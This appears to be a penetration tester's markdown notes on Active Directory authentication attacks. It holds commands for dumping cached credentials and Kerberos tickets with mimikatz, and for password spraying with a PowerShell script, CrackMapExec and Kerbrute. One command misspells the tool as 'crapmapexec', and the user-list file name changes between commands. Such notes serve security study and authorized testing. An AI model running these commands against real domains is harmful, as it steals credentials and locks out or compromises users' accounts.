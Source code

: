 # AD authentication attacks

## Cached creds

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

```
PS > .\mimikatz.exe
m $ sekurlsa::logonpasswords
PS2 > dir \\some\smb\share
m $ sekurlsa::tickets
```

## Attacks

### Passwords

#### Principle

Lockout threshold for password attacks:
```
net accounts
```

AD authentication:
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = ($domainObj.PdcRoleOwner).Name
$searchString = "LDAP://"
$searchString += $pdc + "/"
$distinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$searchString += $distinguishedName
New-Object System.DirectoryServices.DirectoryEntry($searchString, "someuser", "somepass")
```

#### Spray password attacks

Spray passwords: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```
PS > powershell -ep bypass
PS > .\Spray-Passwords.ps1 -Pass somepass -Admin
```

#### SMB attacks - crackmapexec

CrackMapExec GitHub: https://github.com/Porchetta-Industries/CrackMapExec

```
kali $ vi userstohack.txt
kali $ crapmapexec smb $targetIp -u userstoattack.txt -p 'somepassword' -d targetorganisation.com --continue-on-success
```
Warning: can lock users out

#### Kerbrute

Kerbrute on GitHub: https://github.com/ropnop/kerbrute

```
PS > type userstohack.txt
PS > .\kerbrute_windows_amd64.exe passwordspray -d targetorg.com .\userstohack.txt 'somepassword'
```



